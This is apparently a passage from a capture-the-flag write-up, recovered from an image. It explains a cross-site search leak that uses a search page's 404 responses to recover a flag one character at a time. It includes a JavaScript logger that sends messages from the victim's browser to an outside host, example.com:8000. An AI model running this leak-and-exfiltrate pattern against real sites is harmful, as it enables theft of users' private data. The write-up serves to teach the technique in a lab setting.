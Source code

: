 Remember that the search functionality returns 404 when there is no match? This is where it can be used. If a page has the given text this function will return true, and false otherwise.

We also need a small logger to monitor our progress. Remember, the whole html page will run in 
the victim's browser. We can call this function any time we need to send some message for us.

```javascript
 function log(msg) {
    return fetch('http://example.com:8000/log?' + escape(msg));
 }
```

## Putting it together

I let you combine these and write 
the final function that steals 
the flag character by character.

First you need to collect a couple 
of blueprints, and find one that 
contains the word 'cd23'. Once 
you have that you should be able 
to find the rest quite easily.

I didn't realize the trick with 
the referrer override, so my 
brute force for the flag was 
about 80x slower than doing it 
the right way... You should
really start with finding the 
correct blueprint before 
progressing to the last stage.
